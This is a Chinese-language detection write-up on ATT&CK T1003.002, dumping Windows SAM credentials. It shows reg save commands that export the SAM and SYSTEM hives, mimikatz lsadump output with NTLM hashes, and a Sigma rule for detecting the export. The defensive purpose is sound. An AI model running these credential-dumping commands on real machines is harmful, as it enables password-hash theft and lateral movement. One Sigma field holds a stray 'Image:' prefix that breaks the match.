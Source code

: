 # T1003-002--windows-基于SAM-reg凭证获取

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### SAM（Security Accounts Manager）

SAM文件是一个存储主机本地账户信息的数据库文件，通常是"net user"能看到的用户。想要枚举SAM数据库，你需要系统（system）权限才能够进行操作。它可以在两种模式下工作：在线（使用SYSTEM用户或令牌）或离线（使用SYSTEM＆SAMhives或backup）。

安全帐户管理器（SAM），往往是一个数据库文件在Windows XP中，Windows Vista中、Windows 7中、8.1和10存储用户的密码。它可用于验证本地和远程用户。从Windows 2000 SP4开始，Active Directory对远程用户进行身份验证。SAM使用加密措施来防止未经身份验证的用户访问系统。

用户密码以散列格式存储在注册表配置单元中，可以是LM哈希，也可以是NTLM哈希。可以在此文件中找到%SystemRoot%/system32/config/SAM并安装此文件HKLM/SAM。LM哈希是一种受损的协议，已被NTLM哈希取代。可以将大多数Windows版本配置为在用户更改密码时禁用有效LM哈希的创建和存储。Windows Vista和更高版本的Windows默认禁用LM哈希。

为了提高SAM数据库的安全性以防止脱机离线破解，Microsoft在Windows NT 4.0中引入了SYSKEY功能。启用SYSKEY后，SAM文件的磁盘副本将部分加密，以便SAM中存储的所有本地帐户的密码哈希值都使用密钥加密（通常也称为“SYSKEY”）。可以通过运行程序启用它。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用Reg从注册表中提取SAM文件信息：

- reg save HKLM\SYSTEM SystemBkup.hiv
- reg save HKLM\SAM SamBkup.hiv

然后可以使用Creddump7或者hashcat在本地离线提取哈希值。

你也可以选择直接备份这些文件：

- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SAM

值得注意的是：Rid 500账户是本地内置账户，Rid 501是来宾用户，用户账户以Rid 1000+开头。

## 检测日志

sysmon日志

## 测试复现

### 攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)

```dos
C:\Users\me\Desktop>reg save hklm\sam sam.hiv
The operation completed successfully.

C:\Users\me\Desktop>reg save hklm\system system.hiv
The operation completed successfully.

mimikatz # lsadump::sam /sam:sam.hiv /system:system.hiv

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003eb (1003)
User : test
  Hash NTLM: a2345375a47a92754e2505132aca194b

RID  : 000003ec (1004)
User : test2
  Hash NTLM: f0873f3268072c7b1150b15670291137
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)·

```yml
title: 本地导出sam、system文件，离线进行hash提取(administrator)
description: windows 7 模拟测试结果
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003-002
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: sysmon
detection:
​    selection1:
​        EventID: 1
​        Image: 'C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\sam *.hiv'
​    selection2:
​        EventID: 1
​        Image: 'Image: C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\system *.hiv'
​    timeframe: last 2m
​    condition: all of them
level: high
```

### 建议

暂无

## 相关TIP
[[T1003-003-win-基于应用日志检测Ntdsutil获取凭证]]
[[T1003-003-win-基于NTDS凭证获取1]]
[[T1003-003-win-使用ntdsutil获得NTDS.dit文件]]
[[T1003-003-win-ntds凭证获取]]
[[T1003-003-win-vssown.vbs获取NTDS.dit]]
[[T1003-004-win-LSA-mimikatz凭证转储]]
[[T1003-005-win-DCC2-mimikatz凭证转储]]
[[T1003-006-win-DCsysnc-凭证转储]]
[[T1003-win-使用comsvc​​s.dll转储Lsass.exe内存]]
[[T1003-win-使用Windows任务管理器转储Lsass.exe内存]]
[[T1003-win-Procdump凭证转储]]
[[T1003-win-vaultcmd获取系统凭证基本信息]]

## 参考推荐

MITRE-ATT&CK-T1003-002

<https://attack.mitre.org/techniques/T1003/002>

pwdump7

<http://passwords.openwall.net/b/pwdump/pwdump7.zip>

powershell

<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1>

mimikatz wiki

<https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump>

关于更多通过SAM数据库获取本地用户hash你也可以参考

<https://www.4hou.com/technology/10878.html>
